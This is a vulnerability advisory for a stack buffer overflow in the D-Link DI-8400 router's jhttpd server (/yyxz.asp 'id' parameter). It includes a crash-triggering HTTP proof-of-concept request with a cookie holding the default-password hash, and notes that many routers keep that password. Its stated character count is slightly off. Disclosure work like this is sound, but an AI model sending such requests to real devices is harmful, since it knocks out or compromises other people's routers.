



# D-Link DI-8400 (Firmware 16.07.26A1) jhttpd Server Buffer Overflow Vulnerability

## Overview

A stack buffer overflow vulnerability exists in the jhttpd HTTP server of the D-Link DI-8400 router (firmware version 16.07.26A1), located in the `yyxz_dlink_asp` function (handling requests to the `/yyxz.asp` endpoint). Attackers can trigger a stack buffer overflow by passing an overly long string to the `id` parameter, potentially enabling arbitrary code execution, unauthorized device control, sensitive information theft, or denial-of-service attacks.
   
## Details


*   **Vendor**: D-Link

*   **Vendor Website**: [http://www.dlink.com.cn/](http://www.dlink.com.cn/)

*   **Product**: D-Link DI-8400

*   **Firmware**: 16.07.26A1

*   **Firmware Download**: [http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8400](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8400)

*   **Endpoint**: `/yyxz.asp`

*   **Vulnerability**: Stack Buffer Overflow

*   **CVE ID**: Pending

*   **Impact**: Remote Code Execution (RCE), sensitive information leakage, full device compromise

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from the lack of length validation on the user-supplied `id` parameter in the `yyxz_dlink_asp` function, leading to a buffer overflow. Analysis of the disassembled function reveals the following critical risk points:


1.  **Parameter Extraction**: The function retrieves the user-provided `id` parameter via `httpd_get_parm(a1, "id")`, which directly comes from the HTTP request and is fully controllable by attackers.

2.  **Unsafe String Concatenation**: When the `id` parameter exists, the function uses `sprintf(v14, "yyxz_%s", parm)` for string concatenation, where `v14` is a fixed-size stack buffer (defined as `_DWORD v14[6]). The `sprintf` function does not check the target buffer size; if the `id` parameter is excessively long, the concatenated string ("yyxz\_" + id) will exceed `v14`'s capacity, overwriting adjacent memory on the stack.

3.  **Overflow Consequences**: A stack buffer overflow can overwrite critical information such as the function return address and stack frame data. By carefully constructing the length and content of the `id` parameter, attackers can control program execution flow, potentially achieving arbitrary code execution.

   

## Proof of Concept (PoC)

### PoC: Trigger Buffer Overflow


```
GET /yyxz.asp?id=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111 HTTP/1.1
Host: 192.168.0.2
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: wys_userid=root,wys_passwd=21232F297A57A5A743894A0E4A801FC3
If-Modified-Since: Wed, 03 Aug 2016 14:30:52 GMT
Connection: keep-alive
```
#### Testing Steps:


1.  Set up a simulated environment for DI-8400 firmware version 16.07.26A1 using Firmae (recommended, no physical device required).

2.  Send the above GET request to the `/yyxz.asp` endpoint of the target device, where the `id` parameter contains an overly long string (80 "1"s in the example).

3.  Observe device status: When successfully triggered, the device may crash, reboot, or respond abnormally (depending on the critical memory location overwritten by the overflow).


#### Additional Notes on Environment and Exploitation:


*   If using Firmae for simulation, the denial-of-service effect caused by the stack overflow may be difficult to observe due to Firmae's automatic restart mechanism. Instead, a change in the jhttpd port after the overflow indicates that a denial-of-service has occurred. Alternatively, using QEMU system emulation will clearly show a segmentation fault error.

*   The system uses a default password and does not enforce password changes. Although this vulnerability requires authentication, the default password's MD5 hash can be used to attack many routers of this version that have not had their passwords changed, making the risk higher than typical authenticated vulnerabilities.

*   During system emulation, since NVRAM cannot be read, the account credentials are not Firmae's default "admin admin" but "root admin" when NVRAM is detected as empty, resulting in a different password MD5 hash. Ensure the PoC is modified accordingly (the example uses the MD5 hash of "admin": `21232F297A57A5A743894A0E4A801FC3`).

 
